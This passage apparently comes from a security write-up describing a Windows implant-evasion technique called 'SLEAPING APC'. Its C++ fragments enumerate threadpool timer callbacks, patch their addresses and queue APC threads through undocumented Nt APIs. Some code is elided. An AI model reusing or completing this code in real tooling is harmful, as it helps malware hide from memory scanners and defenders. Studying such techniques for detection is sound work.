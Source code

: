 ```cpp
                //I save in my array the pointer to the structure in memory containing the callbacks
                callbackArray[*arraySize] = (PTPP_CLEANUP_GROUP_MEMBER)tp_timer.Work.CleanupGroupMember.Context; //address of the object
                (*arraySize)++;
            }
            p_tp_timer = CONTAINING_RECORD(pFwd, FULL_TP_TIMER, WindowStartLinks);
            bSuccess = ReadProcessMemory(GetCurrentProcess(), p_tp_timer, &tp_timer, sizeof(FULL_TP_TIMER), &len);
            if (bSuccess == FALSE)
                break;

            ReadProcessMemory(GetCurrentProcess(), pFwd, &entry, sizeof(LIST_ENTRY), &len);
            pFwd = entry.Flink;

        } while (pHead != pFwd);
    }
    return NULL;
}

```

Once the TpWorkerFactory objects of interests are enumerated, the SLEAPING APC routine is created and also the threads responsible for the execution of the APCs are added to the list of threads the main thread needs to be waiting for. 

```cpp

//TpWorkerFactory objects enumerated successfully so callbackArray now contains the addresses to fix
if (EnumResumeThreadCallbacks(ResumeThreadAddress, callbackArray) == 0) {

    //i should run SleapingAPC here so that all those contexts are available
    if (SleapingAPC(callbackArray, &EvntHide, &EvntFix, ApcThreads, Ctx, CtxInit, CtxFix, CtxInitFix, ResumeThreadValue) == 0) {

        int counter = 5;
        for (int i = 0; i < 2; i++) {

            //adding the newly created APC threads to the thread array to be waiting for
            ThreadArray[counter] = ApcThreads[i];//5
            counter++;

        }
    }
    else {
        return -1;
    }
}

if (WaitForMultipleObjects(7, ThreadArray, TRUE, INFINITE) == WAIT_FAILED) {
    return -1;
}

[...]
//SLEAPING APC FUNCTIONS INVOKED ABOVE 
int SleapingAPC(PTPP_CLEANUP_GROUP_MEMBER* callbackinfo, PHANDLE EvntHide, PHANDLE EvntFix, PHANDLE apcThreads, PCONTEXT Ctx, PCONTEXT CtxInit, PCONTEXT CtxFix, PCONTEXT CtxInitFix, PDWORD64 ResumeThreadValue) {
   
   [...]
   
    if (NtCreateThreadEx == NULL || NtGetContextThread == NULL || NtWaitForSingleObject == NULL || NtQueueApcThread == NULL || NtAlertResumeThread == NULL) {
```